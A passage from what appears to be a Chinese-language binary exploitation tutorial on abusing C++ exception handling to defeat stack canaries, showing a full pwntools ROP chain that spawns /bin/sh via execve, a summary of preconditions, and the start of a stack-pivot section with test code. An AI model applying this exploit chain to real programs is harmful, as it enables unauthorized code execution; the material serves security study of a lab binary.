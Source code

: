 ```plain
read_addr = 0x4624D0
binsh = 0x4d7000 #
payload = b'a'*0x28
payload += p64(backdoor_try+1)
payload += b'b'*0x18
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(binsh)
payload += p64(pop_rdx_rbx)
payload += p64(0x8)
payload += p64(0)
payload += p64(read_addr)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(59)
payload += p64(syscall)
io.send(payload)
sleep(1)
io.sendline('/bin/sh\x00')

io.interactive()
```

### 小结

我们看到了在不使用rbp作为栈帧寄存器的情况下，可以利用异常处理的特性，使得canary防护无效化，大幅降低漏洞利用难度，配合传统栈溢出手法即可。几个关键点如下：

*   程序不使用rbp作为栈帧寄存器（即便使用rbp也可以配合栈转移解决，见下一节）
*   找到一个没有`__stack_chk_fail()`的handler（无检测的handler其实相当多，比如本例main原有的catch其实也没有检测）
*   溢出长度要较长一点（长度不足以直接ROP时可以尝试`onegadget`）

## CHOP与栈转移

前面说到要转化为传统直接的栈上ROP似乎有一个必要的前提：**不能使用rbp作为栈帧寄存器！**这种情况不能说没有，但毕竟比较少见。接下来，我们提升一下难度，不使用参数`-fomit-frame-pointer`进行编译，在这种情况下继续分析如何进一步利用。

为了方便测试，略微更改了一下代码，去除了`backdoor()`，增添了全局变量`name`

```plain
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char name[0x10];

class x {
    public:
    char buf[0x10];
    x(void) {
        printf("x:x() called\n");
    }
    ~x(void) {
        printf("x:~x() called\n");
    }
};

void test() {
```